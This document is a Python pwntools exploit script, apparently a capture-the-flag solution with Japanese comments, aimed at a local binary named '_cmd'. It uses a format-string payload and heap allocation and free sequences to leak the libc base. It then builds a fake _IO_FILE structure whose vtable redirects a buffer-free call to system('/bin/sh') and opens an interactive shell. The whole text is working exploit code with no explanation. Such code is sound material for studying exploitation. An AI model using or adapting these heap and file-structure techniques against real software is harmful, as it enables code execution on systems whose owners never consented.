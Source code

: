 ```python
if __name__ == '__main__':
    """
        - 作成可能なコマンドは10個まで
        - 固定サイズmalloc(0x188)
    """
    logger = XLog("EXPLOIT")

    libc = ELF("./libc.so.6")
    binsh_libc = next(libc.search(b"/bin/sh\x00"))
    stderr_libc = libc.symbols["_IO_2_1_stderr_"]
    system_libc = libc.symbols["system"]
    str_vtable_libc = 0x7f113e9e8360 - 0x7f113e600000
    s = process("./_cmd", env={"DEBUG": b"1"})

    # name = "unkoman"
    name = "%{0}c%4$hn".format(0xcee0)
    s.recvuntil("Your name: ")
    s.send(name)

    for _ in range(8):
        include(s, 1, "unko")

    for i in range(8, -1, -1):
        delete(s, i)

    for _ in range(8):
        include(s, 1, "a")
    
    libc_addr = u64(review(s, 7)[1].ljust(8, b"\x00")) - 0x3ebc61
    logger.libc(libc_addr)

    payload = p64(0) * 6
    payload += p64(libc_addr + binsh_libc)
    payload += p64(0) * 5
    payload += p64(libc_addr + stderr_libc)  # _chain
    payload += p64(3)
    payload += p64(0) * 2
    null_adr = libc_addr + libc.symbols["__free_hook"]  # _lock
    payload += p64(null_adr)
    payload += p64(0xffffffffffffffff)
    payload += p64(0)
    payload += p64(null_adr + 0x10)  # ???
    payload += p64(0) * 6
    payload += p64(libc_addr + str_vtable_libc)
    payload += p64(0)
    payload += p64(libc_addr + system_libc)  # _s._free_buffer

    include(s, 0xfbad1800, payload)

    send(s)

    s.interactive()

```
